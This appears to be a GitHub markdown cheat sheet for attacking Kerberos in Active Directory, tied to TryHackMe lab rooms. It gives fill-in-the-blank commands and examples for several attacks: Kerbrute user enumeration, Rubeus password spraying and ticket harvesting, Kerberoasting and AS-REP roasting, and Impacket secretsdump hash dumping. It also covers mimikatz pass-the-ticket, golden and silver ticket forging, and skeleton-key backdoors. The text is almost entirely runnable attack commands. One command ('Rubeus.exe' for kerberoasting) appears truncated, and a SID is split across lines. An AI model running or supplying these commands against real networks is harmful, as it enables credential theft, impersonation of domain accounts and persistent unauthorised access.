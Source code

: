 # Attacking Kerberos
* [Enumeration with Kerbrute](#enumeration-with-kerbrute)
* [Harvesting and Brute Forcing Tickets with Rubeus](#harvesting-and-brute-forcing-tickets-with-rubeus)
* [Kerberoasting with Rubeus and Impacket](#kerberoasting-with-rubeus-and-impacket)
* [AS-REP Roasting with Rubeus](#as-rep-roasting-with-rubeus)
* [Pass the Ticket with mimikatz](#pass-the-ticket-with-mimikatz)
* [Golden and Silver Ticket Attacks with mimikatz](#golden-and-silver-ticket-attacks-with-mimikatz)
* [Kerberos Backdoors with mimikatz](#kerberos-backdoors-with-mimikatz)

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

## Enumeration with Kerbrute

Kerbrute Installation:
* https://github.com/ropnop/kerbrute/releases

Brute force user accounts from a domain controller using a supplied wordlist:
```
./kerbrute userenum --dc [DOMAIN-CONTROLLER] -d [DOMAIN] [WORDLIST]
```
Example:
```
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```
*********************************************************************************
## Harvesting and Brute Forcing Tickets with Rubeus

Rubeus Installation:
* https://github.com/GhostPack/Rubeus

Tell Rubeus to harvest TGTs every 30 seconds:
```
Rubeus.exe harvest /interval:30
```
Before password spraying with Rubeus, add domain controller domain name to windows host file with this command:
```
echo [DOMAIN-IP] [DOMAIN-NAME] >> C:\Windows\System32\drivers\etc\hosts
```
Example:
```
echo 10.10.24.234 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
```

Take given password and "spray" it against all found users then give .kirbi TGT for that user:
```
Rubeus.exe brute /password:[PASSWORD] /noticket
```
Example:
```
Rubeus.exe brute /password:Password1 /noticket
```
*********************************************************************************
## Kerberoasting with Rubeus and Impacket

### Rubeus

Dump Kerberos hash of any kerberoastable users:
```
Rubeus.exe
```

### Impacket

Impacket Installation:
* https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19

Ensure dependencies are installed:
```
cd [IMPACKET-LOCATION]
```
```
pip install .
```
Navigate to where GetUserSPNs.py is located:
```
cd /usr/share/doc/python3-impacket/examples/
```
Dump Kerberos hash for all kerberoastable accounts on target machine remotely:
```
sudo python3 GetUserSPNs.py [DOMAIN-NAME]/Machine1:[PASSWORD] -dc-ip [DOMAIN-CONTROLLER-IP] -request
```
Example:
```
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.24.234 -request
```

Retrieve all password hashes from given user account:
```
python3 secretsdump.py [DOMAIN-NAME]/backup:[USERNAME]@[TARGET-IP]
```
Example: 
```
python3 /opt/impacket/examples/secretsdump.py spookysec.local/backup:backup2517860@10.10.6.165
```
*********************************************************************************
## AS-REP Roasting with Rubeus

Look for vulnerable users then dump their hashes:
```
Rubeus.exe asreproast
```
*********************************************************************************
## Pass the Ticket with mimikatz

Run mimikatz
```
mimikatz.exe
```

Ensure proper privileges: (output '20' OK)
```
privilege::debug
```

Export all .kirbi tickets into current directory:
```
sekurlsa::tickets /export
```

Use harvested ticket to cache and impersonate given ticket:
```
kerberos::ptt [TICKET]
```

List cached tickets for impersonation verification:
```
klist
```
*********************************************************************************
## Golden and Silver Ticket Attacks with mimikatz

Dump hash and security identifier to create golden/silver ticket:
```
lsadump::lsa /inject /name:[ACCOUNT]
```
Example:
```
lsadump::lsa /inject /name:krbtgt
```

Create Golden/Silver Ticket:
```
Kerberos::[golden or silver] /user:[USERNAME] /domain:[DOMAIN-NAME] /sid:[SID] /krbtgt:[NTLM-HASH] /id:[500 (golden) OR 1103 (silver)]
```
Example:
```
Kerberos::silver /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158
860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:1103
```

Open new elevated command prompt with given ticket in mimikatz:
```
misc::cmd
```
*********************************************************************************
## Kerberos Backdoors with mimikatz

Install skeleton key:
```
misc::skeleton
```

### Accessing the Forest

* The default credentials will be: "mimikatz"

Access share without admin password example:
```
net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
```
*********************************************************************************
## References
https://tryhackme.com/room/attackingkerberos#
https://tryhackme.com/room/attacktivedirectory
